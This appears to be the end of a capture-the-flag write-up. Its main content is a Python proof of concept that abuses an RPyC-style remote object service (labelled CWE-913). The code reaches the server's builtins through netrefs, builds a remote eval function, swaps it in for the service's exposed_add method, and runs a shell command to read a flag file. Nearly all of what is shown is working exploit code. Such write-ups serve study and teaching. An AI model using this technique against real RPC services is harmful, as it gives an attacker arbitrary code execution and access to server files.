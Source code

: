 ```python
remote_dispatch = netref_getattr(remote_svc_proto, '_dispatch_request')
remote_class_globals = netref_getattr(remote_dispatch, '__globals__')
remote_modules = netref_getattr(remote_class_globals['sys'], 'modules')
_builtins = remote_modules['builtins']
remote_builtins = {k: netref_getattr(_builtins, k) for k in dir(_builtins)}

print("populate globals for CodeType calls on remote")
remote_globals = remote_builtins['dict']()
for name, netref in remote_builtins.items():
    remote_globals[name] = netref
for name, netref in netref_getattr(remote_modules, 'items')():
    remote_globals[name] = netref

print("create netrefs for types to create remote function malicously")
remote_types = remote_builtins['__import__']("types")
remote_types_CodeType = netref_getattr(remote_types, 'CodeType')
remote_types_FunctionType = netref_getattr(remote_types, 'FunctionType')

print('remote eval function constructed')
remote_eval_codeobj = get_code(remote_types_CodeType, myeval, filename='test_code.py', name='__code__')
remote_eval = remote_types_FunctionType(remote_eval_codeobj, remote_globals)
# PoC CWE-913: modify the exposed_nop of service
#   by binding various netrefs in this execution frame, they are cached in
#   the remote address space. setattr and eval functions are cached for the life
#   of the netrefs in the frame. A consequence of Netref classes inheriting
#   BaseNetref, each object is cached under_local_objects. So, we are able
#   to construct arbitrary code using types and builtins.

# use the builtin netrefs to modify the service to use the constructed eval func
remote_setattr = remote_builtins['setattr']
remote_type = remote_builtins['type']
remote_setattr(remote_type(conn.root), 'exposed_add', remote_eval)

flag = conn.root.add('__import__("os").popen("cat /app/flag.txt").read()')
print(flag)
```

## Conclusion:

I hope you enjoy and learn something, and if there are any mistakes, please feel free to point out private messages and emails, thank you very much!